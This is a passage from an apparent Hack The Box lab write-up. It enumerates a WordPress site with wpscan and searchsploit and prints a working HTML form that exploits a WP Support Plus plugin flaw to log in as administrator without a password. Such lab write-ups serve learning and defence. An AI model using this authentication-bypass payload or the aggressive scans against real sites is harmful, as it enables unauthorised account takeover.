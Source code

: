 The two exploits seemed promising, but didn't know how to set up a malicious mail server for the password reset, and couldn't get anything valuable/secret from the 2nd one.

Nothing found on searchsploit for wordpress theme proficient, nor wp-support-plus-responsive-ticket-system.

Trying more aggressive wordpress scan:

```sh
❯ wpscan --update --disable-tls-checks \
       --url https://brainfuck.htb/ \
       --enumerate ap,at,cb,dbe,u \
       --detection-mode aggressive \
       --random-user-agent \
       --plugins-detection aggressive \
       --plugins-version-detection aggressive | tee wpscan-aggressive.log
[i] Plugin(s) Identified:
[+] akismet
 | [!] The version is out of date, the latest version is 4.2.2
 | Version: 3.3 (100% confidence)
[+] easy-wp-smtp
 | [!] The version is out of date, the latest version is 1.4.7
 | [!] Directory listing is enabled
 | Version: 1.2.5 (100% confidence)
[i] User(s) Identified:
[+] admin
[+] administrator
```

Nothing new found in searchsploit.

Got stuck, peeked at walkthrough, and also re-ran wpscan at same time with API key. This time it comes up with vulnerabilities in wordpress version and the wp-support-plus-responsive-ticket-system. This time, using searchsploit with spaces instead of dashes in plugin name reveals juicy stuff:

```sh
❯ searchsploit wp support plus responsive ticket system
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - | php/webapps/40939.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - | php/webapps/41006.txt
```

Exploit 41006 says we can log in as wordpress administrator without any password! Here is the modified HTML form that they provide to perform the exploit (`pwn.html`):

```html
<html>
<head></head>
<body>
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
  Username: <input type="text" name="username" value="administrator">
  <input type="hidden" name="email" value="sth">
  <input type="hidden" name="action" value="loginGuestFacebook">
  <input type="submit" value="Login">
</form>
</body>
</html>
```
